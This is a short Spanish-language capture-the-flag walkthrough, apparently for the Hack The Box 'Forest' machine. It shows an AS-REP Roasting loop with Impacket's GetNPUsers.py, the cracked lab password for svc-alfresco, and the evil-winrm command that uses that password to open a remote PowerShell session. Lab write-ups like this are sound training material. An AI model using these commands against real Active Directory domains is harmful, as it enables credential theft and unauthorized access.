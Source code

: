 # **ATAQUE AS-REP ROASTING**

Vamos a intentar realizar un ataque AS-REP Roasting:

AS-REP Roasting es un ataque contra Kerberos para cuentas de usuario que no requieren autenticación previa (UF_DONT_REQUIRE_PREAUTH esta activado)

Con la herramienta GetNPUsers.py vamos a intentar encontrar un usuario con dicha cualidad:

Creamos un bucle para ir iterando en cada usuario:

`for user in $(cat users); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

![/assets/images/Forest/Untitled%209.png](/assets/images/Forest/Untitled%209.png)

Obtenemos el hash del usuario svc-alfresco, vamos a crackearlo con john:

![/assets/images/Forest/Untitled%2010.png](/assets/images/Forest/Untitled%2010.png)

# **EVIL-WINRM PARA GANAR ACCESO**

La contraseña es s3rvice, vamos a usarla para conectarnos con WinRM, para usar esta herramienta tiene que tener abierto el puerto 5985 de la maquina HTTP o 5986 HTTPS:

Para instalar esta herramienta: `gem install evil-winrm`

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

Y hemos obtenido una PowerShell:
